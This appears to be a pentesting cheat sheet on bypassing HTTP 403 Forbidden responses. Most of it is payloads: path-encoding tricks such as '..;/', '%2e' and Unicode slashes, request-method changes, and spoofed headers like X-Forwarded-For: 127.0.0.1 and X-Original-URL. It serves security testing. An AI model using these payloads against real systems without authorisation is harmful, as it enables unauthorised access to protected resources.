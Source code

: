 <h1> Bypassing 403 Responses </h1> <br>
<b> Install 403 bypass onto Burpsuite from the extender tool, this then becomes an extension you can run on 403 pages on Burpsuite </b></p> <br>
Further automated tool - https://github.com/iamj0ker/bypass-403 <br>

<h2> Directory Brute Forcing </h2><br>
Bruteforce the URL path on the 403 directory. Use different wordlists and experiment to see if you can access further pages after the 403 directory <br>
/access/user - 403    /access/user/properties.json  - 200 OK <br>
<br>

<h2> URL Paths </h2> <br>
Adding the following within the URL and the file that is 403'd or after the file that is 403'd<br>
admin/* <br>
admin/%2f/ <br>
admin/./ <br>
admin/ <br>
admin/*/ <br> 
admin/..;/ <br>
admin/..%3B/ <br> 
/*admin <br>
/%2fadmin/ <br>
/./admin <br>
/*/admin <br> 
/..;/admin <br>
/..%3B/admin <br> 
<br>
This is common on Apache Tomcat <br>

<h2> Change request methods </h2> <br>
Don't just send a get request, try POST, PATCH, PUT, GET, TRACE <br>
Try curl -H "Content-Length:0" -X POST https://www.domain/403'dpage
<br>

<h2> Add .json to the end of the file name, or brute force a .json file endpoint after the 403 file </h2>
  /api/user - 403 <br>
  /api/user/properties.json - 200 OK
<br>
  <h2> HTTP Headers </h2> <br>
  Change Host header to value of a subdomain, google.com etc <br>
  <br>
  Fuzz headers that may allow you to bypass <br>
X-Originating-IP: 127.0.0.1 <br>
X-Forwarded-For: 127.0.0.1 <br>
X-Forwarded: 127.0.0.1 <br>
Forwarded-For: 127.0.0.1 <br>
X-Remote-IP: 127.0.0.1 <br>
X-Remote-Addr: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
X-Original-URL: 127.0.0.1 <br>
Client-IP: 127.0.0.1 <br>
True-Client-IP: 127.0.0.1 <br>
Cluster-Client-IP: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
Host: localhost <br>
  
  <br>
  If the path is protected you can try the following headers <br>
 X-Original-URL: /path/file <br>
X-Rewrite-URL: /path/file <br> 
  Your normal request would be a request to / with the headers identifying the actual path. <br>
  <br>
  <h2> Path Fuzzing <h2> <br>
    if /admin is blocked : <br>
Try using /%2e/admin _(if the access is blocked by a proxy, this could bypass the protection). Try also_** /%252e**/admin (double URL encode) <br>
Try Unicode bypass: /%ef%bc%8fadmin (The URL encoded chars are like "/") so when it's encoded back it will be //path and maybe you will have already bypassed the /path name check <br>
    <br>
site.com/secret –> HTTP 403 Forbidden <br>
site.com/SECRET –> HTTP 200 OK <br>
site.com/secret/ –> HTTP 200 OK <br>
site.com/secret/. –> HTTP 200 OK <br>
site.com//secret// –> HTTP 200 OK <br>
site.com/./secret/.. –> HTTP 200 OK <br>
site.com/;/secret –> HTTP 200 OK <br>
site.com/.;/secret –> HTTP 200 OK <br>
site.com//;//secret –> HTTP 200 OK <br>
site.com/secret.json –> HTTP 200 OK (ruby) <br> 
<br>
 For unicoding, if you are trying to access /admin -403, try adding all the unicode characters in this list within the path https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt <br>
The request would be /FUZZadmin - /FUZZ/admin - /adminFUZZ <br>
<br>
  <h2> accessing via cname </h2> <br>
  Should you come across a 403 subdomain, try accessing via it's cname. - dig domain.com <br>
